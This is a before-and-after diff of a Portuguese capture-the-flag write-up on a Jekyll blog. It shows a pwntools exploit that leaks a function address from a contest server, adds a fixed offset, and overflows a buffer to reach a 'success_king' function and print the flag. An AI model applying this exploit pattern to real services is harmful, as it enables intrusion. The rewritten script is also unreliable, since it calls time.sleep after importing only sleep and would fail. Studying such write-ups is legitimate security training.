

Before and after one commit to k13w/heavenh.github.io, a Jekyll site: the page built from _posts/2017-10-14-red-is-dead-Can-Cwic-2017.md, in a window 1280 px wide and 1400 px high, scrolled down 3099 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
:hammer:
:hammer:

````diff
--- a/_posts/2017-10-14-red-is-dead-Can-Cwic-2017.md
+++ b/_posts/2017-10-14-red-is-dead-Can-Cwic-2017.md
@@ -144,48 +144,46 @@ tendo tudo que precisamos, é hora do solve
 
 ``` python
 from pwn import *
-import struct
-import time
+from struct import pack, unpack
+from time import sleep
 
-def p(x):
-    return struct.pack("<q", x)
-
-addr = 0
-offset = -37
+def packed(blank):
+    return pack("<q", blank)
 
 r = remote('159.203.38.169', 5683)
 r.recv(1024)
 
-print("[*] Triggering leak...")
-r.send('knightAA' + '\n')
-time.sleep(0.3)
+print("[ok] Bufffer Overflow]... ")
+r.send('0x8bytes' + '\n')
+time.sleep(0.7)
 
-print("[*] Retrieving address of check_knight...")
-resp = r.recv(1024).strip()
-addr = resp[8:14] + '\x00\x00'
-addr = struct.unpack("<q", addr)[0]
+print("[ok] Address of check_knight...")
+output = r.recv(1024).strip()
+andress = output[8:14] + '\x00\x00'
+andress = unpack("<q", andress)[0]
+time.sleep(0.7)
 
-print("[*] Calculating address of success_king...")
-addr += offset
+print("[OK] Address of success_king...")
+andress += -37
+time.sleep(0.7)
 
-print("[*] Calling success_king...")
-r.send('red\0' + '0x00' + '0x000000' + p(addr))
-time.sleep(0.3)
+print("[OK] Success_king...")
+r.send('red\0' + '0x00' + '0x000000' + packed(andress))
+time.sleep(0.7)
 
-resp = r.recv(1024)
-print(resp[resp.find('FLAG'):])
+output = r.recv(1024)
+print(output[output.find('\nFLAG'):])
 r.close()
 ```
 
 ``` c
 [+] Opening connection to 159.203.38.169 on port 5683: Done
-[*] Triggering leak...
-[*] Retrieving address of check_knight...
-[*] Calculating address of success_king...
-[*] Calling success_king...
+[ok] Bufffer Overflow]...
+[ok] Address of check_knight...
+[OK] Address of success_king...
+[OK] Success_king...
+
 FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}
-
-[*] Closed connection to 159.203.38.169 port 5683
 ```
 
 `FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}`
````
